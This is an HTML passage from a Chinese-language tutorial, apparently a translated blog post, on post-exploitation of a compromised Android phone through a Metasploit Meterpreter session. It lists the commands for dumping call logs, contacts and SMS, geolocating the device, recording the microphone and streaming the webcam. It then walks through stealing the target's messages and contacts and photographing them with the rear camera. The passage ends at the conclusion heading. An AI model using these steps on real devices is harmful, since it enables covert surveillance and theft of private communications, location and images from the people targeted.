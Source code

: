   <pre class="graf graf--p">dump_calllog

dump_contacts

dump_sms

geolocacte

send_sms</pre>
  <p class="graf graf--p">
   这些命令使您能够看到目标在此设备上的任何行为，以及找到他们的位置。这个 meterpreter 还能够使用其他一些标准的命令，例如：
  </p>
  <pre class="graf graf--p">record_mic

webcam_snap

webcam_stream</pre>
  <h3 class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    <span style="color: #339966;">
     步骤7：从 Android 设备收集数据
    </span>
   </strong>
  </h3>
  <p class="graf graf--p">
   先从获取目标的文本消息开始：
  </p>
  <pre class="graf graf--p">meterpreter &gt; dump_sms</pre>
  <figure class="graf graf--figure">
   <img class="graf-image aligncenter jetpack-lazy-image" data-height="202" data-image-id="1*siSmEmEnXCXwEuvHb1TYQA.png" data-lazy-src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/1*siSmEmEnXCXwEuvHb1TYQA.png?w=1100&amp;is-pending-load=1#038;ssl=1" data-recalc-dims="1" data-width="1236" src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/1*siSmEmEnXCXwEuvHb1TYQA.png?w=1100&amp;ssl=1" srcset="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7"/>
   <noscript>
    <img class="graf-image aligncenter" data-height="202" data-image-id="1*siSmEmEnXCXwEuvHb1TYQA.png" data-recalc-dims="1" data-width="1236" src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/1*siSmEmEnXCXwEuvHb1TYQA.png?w=1100&amp;ssl=1"/>
   </noscript>
  </figure>
  <p class="graf graf--p">
   现在，获取目标人的联系人列表：
  </p>
  <pre class="graf graf--p">meterpreter &gt; dump_contacts</pre>
  <figure class="graf graf--figure">
   <img class="graf-image aligncenter jetpack-lazy-image" data-height="310" data-image-id="1*WY83WBwMq833gKhLC8gSHA.png" data-lazy-src="https://i2.wp.com/cdn-images-1.medium.com/max/1067/1*WY83WBwMq833gKhLC8gSHA.png?w=1100&amp;is-pending-load=1#038;ssl=1" data-recalc-dims="1" data-width="1670" src="https://i2.wp.com/cdn-images-1.medium.com/max/1067/1*WY83WBwMq833gKhLC8gSHA.png?w=1100&amp;ssl=1" srcset="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7"/>
   <noscript>
    <img class="graf-image aligncenter" data-height="310" data-image-id="1*WY83WBwMq833gKhLC8gSHA.png" data-recalc-dims="1" data-width="1670" src="https://i2.wp.com/cdn-images-1.medium.com/max/1067/1*WY83WBwMq833gKhLC8gSHA.png?w=1100&amp;ssl=1"/>
   </noscript>
  </figure>
  <p class="graf graf--p">
   最后，尝试利用目标的网络摄像头，以便以后您可以从中捕捉照片：
  </p>
  <pre class="graf graf--p">meterpreter &gt; webcam_list</pre>
  <figure class="graf graf--figure">
   <img class="graf-image aligncenter jetpack-lazy-image" data-height="268" data-image-id="1*HwBMoVbLWwuHyHXa4vVukQ.png" data-lazy-src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/1*HwBMoVbLWwuHyHXa4vVukQ.png?w=1100&amp;is-pending-load=1#038;ssl=1" data-recalc-dims="1" data-width="1130" src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/1*HwBMoVbLWwuHyHXa4vVukQ.png?w=1100&amp;ssl=1" srcset="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7"/>
   <noscript>
    <img class="graf-image aligncenter" data-height="268" data-image-id="1*HwBMoVbLWwuHyHXa4vVukQ.png" data-recalc-dims="1" data-width="1130" src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/1*HwBMoVbLWwuHyHXa4vVukQ.png?w=1100&amp;ssl=1"/>
   </noscript>
  </figure>
  <p class="graf graf--p">
   现在您得到了设备上的网络摄像头列表，可以使用 meterpreter 命令 webcam_snap 和网络摄像头编号，以便（比如）从后置摄像头拍摄目标的照片：
  </p>
  <pre class="graf graf--p">meterpreter &gt; webcam_snap 1</pre>
  <h3 class="graf graf--p">
   <span style="color: #339966;">
    <strong class="markup--strong markup--p-strong">
     结论
    </strong>